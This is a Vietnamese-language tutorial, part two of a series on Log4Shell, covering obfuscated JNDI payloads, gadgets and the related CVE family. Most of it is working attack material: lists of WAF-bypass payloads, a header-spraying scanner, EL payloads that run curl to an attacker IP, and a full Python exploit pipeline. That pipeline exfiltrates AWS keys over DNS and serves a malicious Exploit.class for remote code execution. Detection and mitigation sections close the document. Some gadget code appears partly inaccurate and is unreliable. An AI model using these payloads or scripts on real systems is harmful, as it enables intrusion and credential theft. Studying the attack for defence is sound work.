

> **Prerequisites**: [[09-log4shell-root-cause|09. Log4Shell Part 1]], Java ClassLoader basics, LDAP/RMI basics
> **Objectives**:
> - Nắm vững tất cả WAF bypass technique cho Log4Shell (lower, upper, nested, unicode, ...)
> - Hiểu tại sao Java ≥ 8u191 không cho phép remote class loading và cách bypass
> - Phân tích BeanFactory gadget — cách exploit Java mới hơn
> - Hiểu CVE family: 44228, 45046, 45105, 44832 và quan hệ giữa chúng
> - Viết full PoC Python: trigger + LDAP server + HTTP server + exfil output
> - Hiểu attack surface data exfil qua DNS, LDAP, RMI
> - Nắm detection pattern trong log và network traffic

---

## Tại sao cần Bài Thứ Hai?

Log4Shell không chỉ là một exploit đơn giản. Ngay sau khi lỗi được công bố:
- Các WAF triển khai blacklist `${jndi:`  → attackers bypass bằng obfuscation
- Java ≥ 8u191 không load remote class → attackers tìm cách khác (BeanFactory, RMI gadgets)
- Patch 2.15.0 có bypass → CVE-2021-45046 ra đời
- Patch 2.16.0 có DoS → CVE-2021-45105
- Patch 2.17.0 có config-based RCE → CVE-2021-44832

Đây là ví dụ kinh điển về "patch whack-a-mole" — vá một chỗ lộ ra chỗ khác.

---

## WAF Bypass Techniques

### Tại sao `${jndi:ldap://...}` bị block

WAF và IDS/IPS đơn giản blacklist pattern `${jndi:`. Nhưng Log4j2's `StrSubstitutor` là **recursive** — nó evaluate lồng nhau nhiều lần trước khi lookup. Đây là lý do có thể obfuscate.

### Các Lookup Built-in của Log4j2 dùng để bypass

| Lookup | Chức năng | Bypass dùng |
|--------|-----------|------------|
| `${lower:X}` | Lowercase ký tự X | `${lower:j}` → `j` |
| `${upper:x}` | Uppercase ký tự x | `${upper:J}` → `J` |
| `${::-X}` | String nesting | `${::-j}ndi` → `jndi` |
| `${env:FOO}` | Env variable | `${env:NaN:-j}` → `j` (nếu NaN không tồn tại) |
| `${sys:FOO}` | System property | Tương tự env |

### Taxonomy Bypass Payloads

```text
[1] Canonical (bị block):
${jndi:ldap://attacker.com/x}

[2] lower bypass:
${${lower:j}ndi:ldap://attacker.com/x}
${${lower:j}${lower:n}${lower:d}${lower:i}:ldap://attacker.com/x}

[3] upper bypass:
${${upper:j}ndi:ldap://attacker.com/x}
${J${upper:n}DI:rmi://attacker.com/y}

[4] Nested empty string bypass:
${j${::-n}di:ldap://attacker.com/x}
${jn${::-d}i:ldap://attacker.com/x}

[5] Combine lower + nesting:
${${lower:${lower:${upper:j}}}ndi:ldap://attacker.com/x}

[6] URL-encode trong header value:
${jndi:ldap://%61ttacker.com/x}  (a → %61)
${jndi:ldap://att%61cker.com/x}

[7] Unicode trong Java string:
${jndi:\u006c\u0064\u0061\u0070://attacker.com/x}
(\u006c=l, \u0064=d, \u0061=a, \u0070=p → ldap)

[8] Sử dụng các protocol khác:
${jndi:rmi://attacker.com:1099/x}
${jndi:dns://attacker.com/x}
${jndi:ldaps://attacker.com:636/x}
${jndi:iiop://attacker.com:900/x}

[9] Bypass IP allowlist với IPv6:
${jndi:ldap://[::1]:1389/x}
${jndi:ldap://0177.0.0.1:1389/x}   (octal IP)
${jndi:ldap://0x7f000001:1389/x}    (hex IP)

[10] Bypass với Base64 nested expansion:
${base64:${env:PATH}}  (exfil PATH qua DNS: ${jndi:dns://${base64:${env:PATH}}.att.com})
```

### Python — Test nhiều bypass cùng lúc

```python
import requests

VICTIM = "http://localhost:8080"
ATTACKER = "192.168.1.10:1389"

PAYLOADS = [
    "${jndi:ldap://ATTACKER/a}",
    "${${lower:j}ndi:ldap://ATTACKER/a}",
    "${${upper:j}ndi:ldap://ATTACKER/a}",
    "${j${::-n}di:ldap://ATTACKER/a}",
    "${${lower:j}${lower:n}${lower:d}${lower:i}:ldap://ATTACKER/a}",
    "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://ATTACKER/a}",
    "${jndi:rmi://ATTACKER/a}",
    "${jndi:dns://ATTACKER.dns-check.com}",
    "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://ATTACKER/a}",
]

HEADERS_TO_TEST = [
    "User-Agent", "X-Forwarded-For", "Referer",
    "X-Api-Version", "Accept-Language", "Cookie",
    "Authorization", "X-Custom-Header",
]

def scan_all_vectors(endpoint="/"):
    found = []
    for payload_template in PAYLOADS:
        payload = payload_template.replace("ATTACKER", ATTACKER)
        for header in HEADERS_TO_TEST:
            try:
                resp = requests.get(
                    VICTIM + endpoint,
                    headers={header: payload},
                    timeout=3
                )
                if resp.status_code not in [400, 403, 502]:
                    found.append((header, payload))
                    print(f"[?] Sent via {header}: {payload[:60]}...")
            except Exception:
                pass
    return found

print("[*] Scanning all headers and bypass vectors...")
print("[*] Watch your LDAP/DNS server for callbacks!")
scan_all_vectors()
```

---

## Java ≥ 8u191 — Bypass với BeanFactory

Từ Java 8u191, Oracle tắt `trustURLCodebase` — JNDI qua LDAP không thể load class từ remote URL. Nhưng JNDI vẫn có thể load **local class** (trong classpath của application) và dùng nó như một factory.

### BeanFactory Gadget

`com.sun.jndi.ldap.obj.BeanFactory` (có trong JDK cũ và một số app server) có behavior nguy hiểm:

```java
// BeanFactory.java (trong rt.jar)
public class BeanFactory implements ObjectFactory {
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                   Hashtable<?,?> environment) throws Exception {
        Reference ref = (Reference) obj;
        // Lấy "class" attribute từ Reference
        String className = ref.getClassName();
        // Instantiate class với REFLECTION
        Class<?> cls = Class.forName(className);
        Object bean = cls.newInstance();
        
        // Gọi setter methods DỰA TRÊN Reference attributes!
        for (RefAddr addr : Collections.list(ref.getAll())) {
            String type = addr.getType();   // e.g., "forceString"
            String value = (String) addr.getContent();
            // "forceString" cho phép gọi bất kỳ method nào với String arg
            if ("forceString".equals(type)) {
                // value = "x=exec" → gọi method exec() với attacker-controlled string
                String[] tokens = value.split(",");
                for (String token : tokens) {
                    String[] kv = token.split("=", 2);
                    String propName = kv[0].trim();
                    String methodName = kv.length > 1 ? kv[1].trim() : "set" + ...;
                    // Invoke method via reflection
                    Method m = cls.getMethod(methodName, String.class);
                    m.invoke(bean, ...);  // ← attacker-controlled method call!
                }
            }
        }
        return bean;
    }
}
```

**Gadget sử dụng ELProcessorFactory:**

`javax.el.ELProcessor` (có trong Java EE / Tomcat classpath) có method `eval(String)` nhận EL expression — có thể execute code:

```java
// LDAP server trả về Reference với:
Reference ref = new Reference(
    "foo",
    "com.sun.jndi.ldap.obj.BeanFactory",  // factory trong local classpath
    null                                    // codebase = null (không fetch remote)
);
// Attribute "forceString": gọi ELProcessor.eval()
ref.add(new StringRefAddr("forceString", "x=eval"));
// Attribute "x": EL expression để execute
ref.add(new StringRefAddr("x",
    "Runtime.getRuntime().exec(new String[]{\"/bin/sh\",\"-c\",\"id > /tmp/pwn\"})"));
```

Khi victim JNDI client nhận Reference này:
1. BeanFactory được load (đã có trong JDK/Tomcat classpath → `trustURLCodebase` không cản)
2. BeanFactory instantiate `ELProcessor`
3. Dùng `forceString=x=eval` → gọi `ELProcessor.eval(x_value)`
4. EL expression được execute → RCE

### LDAP Server có BeanFactory payload (Python)

```python
def build_bean_factory_ldap_response(el_expression):
    """
    Tạo LDAP response với BeanFactory Reference.
    Dùng cho Java ≥ 8u191 với Tomcat/Spring trong classpath.
    """
    class_name = "foo"
    factory_name = "com.sun.jndi.ldap.obj.BeanFactory"

    # RefAddr entries
    ref_addrs = [
        ("javaClassName",     class_name.encode()),
        ("javaFactory",       factory_name.encode()),
        ("objectClass",       b"javaNamingReference"),
        # BeanFactory magic: call eval() with our expression
        ("forceString",       b"x=eval"),
        ("x",                 el_expression.encode()),
    ]
    return ref_addrs

# Payload ví dụ
EL_PAYLOAD = (
    "Runtime.getRuntime().exec("
    "new String[]{\"/bin/sh\",\"-c\","
    "\"curl http://192.168.1.10:9999/$(id|base64 -w0)\"})"
)
```

### Các Factory Class Khác

| Factory Class | Availability | Ghi chú |
|-------------|-------------|---------|
| `com.sun.jndi.ldap.obj.BeanFactory` | JDK ≤ 17 | Dùng `forceString` + ELProcessor |
| `org.apache.naming.factory.BeanFactory` | Tomcat | `forceString` trick |
| `groovy.lang.GroovyClassLoader` | Apps với Groovy | Dynamic code eval |
| `com.ibm.ws.naming.util.WsnInitCtxFactory` | WebSphere | IBM-specific |
| `org.springframework.context.support.ClassPathXmlApplicationContext` | Spring apps | Load Spring XML config |

---

## CVE Family Log4j — Toàn Cảnh



### Chi tiết từng CVE

**CVE-2021-45046** — Bypass patch 2.15.0:
Patch 2.15.0 restrict JNDI chỉ cho phép `localhost`. Tuy nhiên, trong non-default configuration (Thread Context Map lookup enabled + pattern `%X{...}`), attacker vẫn có thể inject `${jndi:ldap://127.0.0.1#evil.com:1389/x}` và bypass hostname check.

**CVE-2021-45105** — DoS via recursion:
`${${::-${::-$${::-j}}}}` gây infinite recursion trong StrSubstitutor → StackOverflowError → application crash.

**CVE-2021-44832** — Config injection:
Nếu attacker kiểm soát cấu hình Log4j (log4j2.xml), có thể inject JNDI lookup trong `<Appender>` configuration → RCE ngay khi Log4j khởi động.

---

## Full PoC — Scan → Exfil → RCE Pipeline

```python
import requests
import socket
import threading
import socketserver
import http.server
import os
import time
from urllib.parse import unquote_plus, parse_qs, urlparse

# ========== Config ==========
VICTIM_URL   = "http://localhost:8080"
ATTACKER_IP  = "192.168.1.10"
LDAP_PORT    = 1389
HTTP_PORT    = 8888
EXFIL_PORT   = 9999

# ========== Phase 1: DNS/DNS exfil check ==========
EXFIL_PAYLOADS = {
    "AWS_KEY":        "${jndi:dns://${env:AWS_ACCESS_KEY_ID:-NOKEY}.ATTACKER}",
    "AWS_SECRET":     "${jndi:dns://${env:AWS_SECRET_ACCESS_KEY:-NOSEC}.ATTACKER}",
    "JAVA_VERSION":   "${jndi:dns://${java:version:-unknown}.ATTACKER}",
    "HOSTNAME":       "${jndi:dns://${env:HOSTNAME:-nohost}.ATTACKER}",
    "PATH":           "${jndi:dns://${env:PATH:-nopath}.ATTACKER}",
}

def phase1_dns_exfil(endpoint="/"):
    """
    Giai đoạn 1: Exfil sensitive env vars qua DNS.
    Không cần Java class loading → work với mọi Java version.
    """
    print("[Phase 1] DNS Exfiltration scan")
    for key, payload in EXFIL_PAYLOADS.items():
        p = payload.replace("ATTACKER", f"{ATTACKER_IP}:{LDAP_PORT}")
        headers = {"X-Api-Version": p}
        try:
            requests.get(VICTIM_URL + endpoint, headers=headers, timeout=2)
            print(f"  Sent {key} exfil payload")
        except Exception:
            pass
    print("  [*] Watch your DNS server for responses!")
    print()

# ========== Phase 2: Exploit server ==========
class ExfilHandler(http.server.BaseHTTPRequestHandler):
    def log_message(self, *args): pass
    def do_GET(self):
        parsed = urlparse(self.path)
        params = parse_qs(parsed.query)
        print(f"\n[!!!] EXFIL RECEIVED from {self.client_address[0]}")
        for k, v in params.items():
            print(f"  {k} = {unquote_plus(v[0])}")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

class ClassHandler(http.server.BaseHTTPRequestHandler):
    def log_message(self, *args): pass
    def do_GET(self):
        if 'Exploit.class' in self.path:
            if os.path.exists('Exploit.class'):
                with open('Exploit.class', 'rb') as f:
                    data = f.read()
                self.send_response(200)
                self.send_header('Content-Type', 'application/octet-stream')
                self.send_header('Content-Length', str(len(data)))
                self.end_headers()
                self.wfile.write(data)
                print(f"[HTTP] Sent Exploit.class → RCE imminent!")
            else:
                self.send_response(404)
                self.end_headers()
                print("[HTTP] Exploit.class not found! Compile first.")
        else:
            self.send_response(404)
            self.end_headers()

def start_http_servers():
    class_server  = socketserver.TCPServer(('0.0.0.0', HTTP_PORT),  ClassHandler)
    exfil_server  = socketserver.TCPServer(('0.0.0.0', EXFIL_PORT), ExfilHandler)
    class_server.allow_reuse_address = True
    exfil_server.allow_reuse_address = True
    for srv in [class_server, exfil_server]:
        t = threading.Thread(target=srv.serve_forever)
        t.daemon = True
        t.start()
    print(f"[*] Class server: :{HTTP_PORT}")
    print(f"[*] Exfil server: :{EXFIL_PORT}")

# ========== Phase 3: Trigger RCE ==========
def phase3_rce(endpoint="/"):
    """
    Giai đoạn 3: RCE qua JNDI/LDAP → remote classload.
    Chỉ work với Java ≤ 8u191 hoặc với BeanFactory gadget.
    """
    bypasses = [
        # Thử nhiều bypass để vượt WAF
        f"${{jndi:ldap://{ATTACKER_IP}:{LDAP_PORT}/Exploit}}",
        f"${{${{lower:j}}ndi:ldap://{ATTACKER_IP}:{LDAP_PORT}/Exploit}}",
        f"${{j${{::-n}}di:ldap://{ATTACKER_IP}:{LDAP_PORT}/Exploit}}",
        f"${{${{upper:j}}ndi:${{lower:l}}dap://{ATTACKER_IP}:{LDAP_PORT}/Exploit}}",
    ]
    for headers_combo in [
        {"X-Api-Version": None},
        {"User-Agent": None},
        {"Referer": None},
    ]:
        for payload in bypasses:
            headers = {k: payload for k in headers_combo}
            try:
                requests.get(VICTIM_URL + endpoint,
                             headers=headers, timeout=3)
                print(f"[Phase 3] Sent via {list(headers.keys())[0]}: {payload[:70]}...")
            except Exception:
                pass
    print("[Phase 3] Payloads sent — waiting for Exploit.class fetch...")

if __name__ == '__main__':
    print("=" * 60)
    print("Log4Shell Full PoC (CVE-2021-44228)")
    print("=" * 60)
    print()
    print("REMINDER: Use only in authorized lab environments!")
    print()

    # Compile exploit class trước khi chạy
    if not os.path.exists('Exploit.class'):
        print("[!] Exploit.class not found. Creating minimal payload...")
        exploit_java = '''
public class Exploit {
    static {
        try {
            String[] cmd = {"/bin/sh", "-c",
                "curl http://''' + ATTACKER_IP + ':' + str(EXFIL_PORT) + '''/?out=$(id|base64 -w0)"};
            Runtime.getRuntime().exec(cmd);
        } catch(Exception e) {}
    }
}'''
        with open('Exploit.java', 'w') as f:
            f.write(exploit_java)
        print("[*] Run: javac -source 8 -target 8 Exploit.java")
        print("    Then re-run this script.")
        exit(1)

    start_http_servers()
    time.sleep(0.5)

    print("[*] Phase 1: DNS exfil payloads...")
    phase1_dns_exfil()

    time.sleep(1)

    print("[*] Phase 3: Triggering RCE...")
    phase3_rce()

    print()
    print("[*] Waiting for callbacks... (Ctrl+C to stop)")
    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        print("[*] Done.")
```

---

## Wireshark / Log Detection

### Tìm trong access log (Apache/Nginx)

```bash
grep -r '${jndi' /var/log/apache2/ /var/log/nginx/

# Detect obfuscated variants
grep -rP '\$\{[^\}]*j[^\}]*n[^\}]*d[^\}]*i' /var/log/apache2/

# Comprehensive regex (từ Neo23x0)
grep -rP '\$\{(\${.{0,5}}|[jJ][nN][dD][iI])' /var/log/
```

### Tìm trong ứng dụng Log4j đang chạy

```bash
# Tìm các JAR chứa JndiLookup.class
find / -name "*.jar" 2>/dev/null | xargs -I{} sh -c \
  'jar tf "{}" 2>/dev/null | grep -l JndiLookup && echo "{}"'

# Hoặc nhanh hơn với find
find / -name "log4j-core-*.jar" 2>/dev/null

# Xóa JndiLookup.class khỏi JAR (workaround nếu không thể patch)
zip -q -d log4j-core-*.jar \
  org/apache/logging/log4j/core/lookup/JndiLookup.class
```

### Wireshark filter

```text
# JNDI/LDAP outbound connections từ server
tcp.dstport == 389 || tcp.dstport == 1389 || tcp.dstport == 636

# RMI outbound
tcp.dstport == 1099

# HTTP fetch của Java class sau LDAP
http && http.request.method == "GET" && http.request.uri contains ".class"

# DNS exfil (unusual long DNS queries)
dns && dns.qry.name.len > 60
```

---

## Mitigation — Theo Thứ Tự Ưu Tiên

```text
1. PATCH NGAY:
   Log4j ≥ 2.17.1 (Java 8+), ≥ 2.12.4 (Java 7), ≥ 2.3.2 (Java 6)

2. Nếu chưa patch được — workaround theo Java version:
   Java ≥ 8u121:
     Thêm JVM flag: -Dlog4j2.formatMsgNoLookups=true
     (disable message lookup, nhưng không disable JndiLookup hoàn toàn)

   Log4j 2.10+:
     env LOG4J_FORMAT_MSG_NO_LOOKUPS=true

   Mọi version:
     zip -q -d log4j-core-*.jar \
       org/apache/logging/log4j/core/lookup/JndiLookup.class
     (xóa class khỏi JAR — workaround mạnh nhất)

3. Network-level controls:
   Block outbound LDAP (389, 636), RMI (1099) từ server
   → Dù trigger được lookup, không kết nối được attacker server

4. WAF rules:
   Pattern: \$\{.*jndi.*(ldap|rmi|dns|iiop)
   Block NHƯNG nhớ update thường xuyên vì bypass liên tục
   → Không nên dùng làm biện pháp chính

5. Java security property:
   com.sun.jndi.ldap.object.trustURLCodebase=false  (Java ≥ 8u191 mặc định)
   com.sun.jndi.rmi.object.trustURLCodebase=false
```

---

## Bài Học từ Log4Shell cho Security Research

Log4Shell dạy chúng ta nhiều hơn là một lỗ hổng cụ thể:

**1. Supply chain là attack surface lớn nhất hiện nay.** Log4j là transitive dependency của hàng nghìn library — nhiều team không biết mình đang dùng nó.

**2. "Tính năng" và "lỗ hổng" chỉ cách nhau một context.** JNDI remote class loading là feature hợp lệ trong enterprise Java. Lookup trong log message là feature tiện lợi. Kết hợp lại → thảm họa.

**3. Patch không phải là silver bullet.** CVE-44228 → 45046 → 45105 → 44832: mỗi patch mở ra lỗ mới. Cần defense-in-depth.

**4. DNS là universal exfil channel.** Ngay cả khi class loading bị block và LDAP bị firewall — DNS vẫn thường được cho phép. `${jndi:dns://${env:AWS_SECRET}.attacker.com}` leak credentials ngay cả trên Java 17.

---

## Summary

- WAF bypass Log4Shell dựa trên recursive StrSubstitutor: `${lower:j}`, `${::-j}`, nested combinations
- Java ≥ 8u191 không load remote class qua LDAP → bypass qua BeanFactory + ELProcessor gadget (local classpath)
- CVE family: 44228 → 45046 (bypass 2.15.0) → 45105 (DoS 2.16.0) → 44832 (config RCE 2.17.0) → safe 2.17.1
- DNS exfil work ngay cả khi class loading bị disable: `${jndi:dns://${env:SECRET}.att.com}`
- Full PoC: Phase 1 (DNS exfil) → Phase 2 (LDAP server) → Phase 3 (trigger + bypass WAF)
- Mitigation chắc chắn nhất: patch lên 2.17.1, hoặc xóa JndiLookup.class khỏi JAR
- **Lớp lỗ hổng**: JNDI Injection với WAF bypass — feature trust + recursive evaluation + supply chain

---

## References

- LunaSec bypass techniques: https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/
- JFrog full bypass analysis: https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/
- CVE-2021-45046 details: https://logging.apache.org/log4j/2.x/security.html
- BeanFactory gadget (Palo Alto): https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/
- Detection commands (Neo23x0): https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b
- JNDI-Exploit-Kit: https://github.com/pimps/JNDI-Exploit-Kit
- Wikipedia Log4Shell CVE family: https://en.wikipedia.org/wiki/Log4Shell
